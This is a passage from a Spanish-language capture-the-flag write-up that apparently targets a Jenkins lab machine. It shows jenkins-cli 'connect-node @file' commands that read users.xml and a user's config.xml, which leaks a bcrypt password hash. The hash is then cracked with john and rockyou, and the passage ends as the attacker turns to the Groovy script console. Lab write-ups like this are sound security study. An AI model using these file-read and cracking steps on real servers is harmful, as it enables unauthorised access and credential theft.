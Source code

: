 ~~~bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node @/var/jenkins_home/users/users.xml
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
~~~

- Vemos que el nombre del directorio es `jennifer_12108429903186576833`, y dentro de este debe haber un archivo `config.xml`, el cual incluye la contraseña hasheada del usuario en cuestión:

~~~bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node @/var/jenkins_home/users/jennifer_12108429903186576833/config.xml
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">: No such agent "    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">" exists.

<----- TRASH ----->
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
~~~

- Podemos hackear el hash con `john`:

~~~bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
princess         (jbcrypt)     
1g 0:00:00:00 DONE (2024-04-17 17:00) 3.571g/s 128.5p/s 128.5c/s 128.5C/s 123456..liverpool
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

- Iniciamos sesión con estas credenciales en la página web y funcionó.
- Ahora bien, si nos vamos a `Administrar Jnekins > script console` veremos que podemos crear un script en `Groovy`:
